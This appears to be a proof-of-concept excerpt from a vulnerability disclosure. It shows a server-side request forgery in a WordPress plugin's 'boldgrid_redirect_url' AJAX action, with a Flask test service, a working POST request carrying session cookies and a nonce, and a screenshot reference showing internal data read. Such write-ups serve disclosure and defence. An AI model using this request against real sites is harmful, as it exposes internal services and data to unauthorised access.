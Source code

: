 Create a simple local service with Python:

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C07a62e731a6142aa7b15555fdd5e1cbdd114cffb4a041ba0ecd9394c8319bb3f; wp-settings-time-2=1761643645; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C450b8e4bb8ebb335d435b94645ae098cee383a09a6e129efbdec8a2348deeda0
...

action=boldgrid_redirect_url&urls[0]=http://localhost:8001/metadata&boldgrid_gridblock_image_ajax_nonce=482dbb1ed2
```

**Result**:

![Result](result.png "Content read from local service")
